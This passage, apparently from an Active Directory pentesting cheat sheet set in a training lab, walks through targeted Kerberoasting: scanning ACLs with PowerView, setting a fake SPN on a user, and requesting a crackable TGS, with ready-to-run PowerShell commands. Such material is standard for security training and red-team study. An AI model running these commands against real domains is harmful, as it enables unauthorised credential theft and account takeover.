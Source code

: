     The `hashcat` format can also be cracked by `john`.
    

## Targeted Kerberoasting (Set SPN)

With enough rights (*GenericAll*/*GenericWrite*), a target user’s SPN can be set to anything (unique in the domain). We can then request a TGS without special privileges. The TGS can then be “Kerberoasted”.

1. Let’s enumerate the permissions for RDPUsers on ACLs
    
    ```
    # PowerView
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
    ```
    
2. Check if the user already has a SPN:
    
    ```powershell
    # PowerView_dev
    Get-DomainUser -Identity "STUDENT2" | select ServicePrincipalName
    
    # ActiveDirectory Module
    Get-ADUser -Identity "STUDENT2" -Properties ServicePrincipalName | select ServicePrincipalName
    ```
    
3. Set a SPN for the user (must be unique for the domain):
    
    ```powershell
    # PowerView
    Set-DomainObject -Identity "STUDENT2" -Set @{serviceprincipalname='ops/whatever1'}
    
    # ActiveDirectory Module
    Set-ADUser -Identity "STUDENT2" -ServicePrincipalNames @{Add='ops/whatever1'}
    ```
    
4. Request a TGS:
    
    ```powershell
    # PowerShell
    Add-Type -AssemblyNAme System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
    
    # PowerView
    Request-SPNTicket -SPN "ops/whatever1"
    ```
    